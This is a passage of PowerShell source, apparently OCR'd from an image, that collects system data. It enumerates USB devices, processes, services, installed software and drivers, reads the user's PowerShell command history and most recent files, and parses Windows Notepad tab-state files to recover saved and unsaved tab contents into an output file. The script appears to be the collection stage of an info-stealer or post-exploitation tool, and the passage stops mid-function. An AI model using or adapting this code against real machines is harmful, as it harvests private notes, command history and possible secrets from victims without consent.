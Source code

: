 # System Information
$COMDevices = Get-Wmiobject Win32_USBControllerDevice | ForEach-Object{[Wmi]($_.Dependent)} | Select-Object Name, DeviceID, Manufacturer | Sort-Object -Descending Name | Format-Table; $usbdevices = ($COMDevices| Out-String)
$process=Get-WmiObject win32_process | select Handle, ProcessName, ExecutablePath; $process = ($process| Out-String)
$service=Get-CimInstance -ClassName Win32_Service | select State,Name,StartName,PathName | Where-Object {$_.State -like 'Running'}; $service = ($service | Out-String)
$software=Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* | where { $_.DisplayName -notlike $null } |  Select-Object DisplayName, DisplayVersion, InstallDate | Sort-Object DisplayName | Format-Table -AutoSize; $software = ($software| Out-String)
$drivers=Get-WmiObject Win32_PnPSignedDriver| where { $_.DeviceName -notlike $null } | select DeviceName, FriendlyName, DriverProviderName, DriverVersion
$pshist = "$env:USERPROFILE\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt";$pshistory = Get-Content $pshist -raw ;$pshistory = ($pshistory | Out-String) 
$RecentFiles = Get-ChildItem -Path $env:USERPROFILE -Recurse -File | Sort-Object LastWriteTime -Descending | Select-Object -First 100 FullName, LastWriteTime;$RecentFiles = ($RecentFiles | Out-String)

function EnumNotepad{
$appDataDir = [Environment]::GetFolderPath('LocalApplicationData')
$directoryRelative = "Packages\Microsoft.WindowsNotepad_*\LocalState\TabState"
$matchingDirectories = Get-ChildItem -Path (Join-Path -Path $appDataDir -ChildPath 'Packages') -Filter 'Microsoft.WindowsNotepad_*' -Directory
foreach ($dir in $matchingDirectories) {
    $fullPath = Join-Path -Path $dir.FullName -ChildPath 'LocalState\TabState'
    $listOfBinFiles = Get-ChildItem -Path $fullPath -Filter *.bin
    foreach ($fullFilePath in $listOfBinFiles) {
        if ($fullFilePath.Name -like '*.0.bin' -or $fullFilePath.Name -like '*.1.bin') {
            continue
        }
        $seperator = ("=" * 60)
        $SMseperator = ("-" * 60)
        $seperator | Out-File -FilePath $outpath -Append
        $filename = $fullFilePath.Name
        $contents = [System.IO.File]::ReadAllBytes($fullFilePath.FullName)
        $isSavedFile = $contents[3]
        if ($isSavedFile -eq 1) {
            $lengthOfFilename = $contents[4]
            $filenameEnding = 5 + $lengthOfFilename * 2
            $originalFilename = [System.Text.Encoding]::Unicode.GetString($contents[5..($filenameEnding - 1)])
            "Found saved file : $originalFilename" | Out-File -FilePath $outpath -Append
            $filename | Out-File -FilePath $outpath -Append
            $SMseperator | Out-File -FilePath $outpath -Append
            Get-Content -Path $originalFilename -Raw | Out-File -FilePath $outpath -Append

        } else {
            "Found an unsaved tab!" | Out-File -FilePath $outpath -Append
            $filename | Out-File -FilePath $outpath -Append
            $SMseperator | Out-File -FilePath $outpath -Append
            $filenameEnding = 0
            $delimeterStart = [array]::IndexOf($contents, 0, $filenameEnding)
            $delimeterEnd = [array]::IndexOf($contents, 3, $filenameEnding)
            $fileMarker = $contents[($delimeterStart + 2)..($delimeterEnd - 1)]
            $fileMarker = -join ($fileMarker | ForEach-Object { [char]$_ })
            $originalFileBytes = $contents[($delimeterEnd + 9 + $fileMarker.Length)..($contents.Length - 6)]
            $originalFileContent = ""
            for ($i = 0; $i -lt $originalFileBytes.Length; $i++) {
                if ($originalFileBytes[$i] -ne 0) {
                    $originalFileContent += [char]$originalFileBytes[$i]
                }
            }
            $originalFileContent | Out-File -FilePath $outpath -Append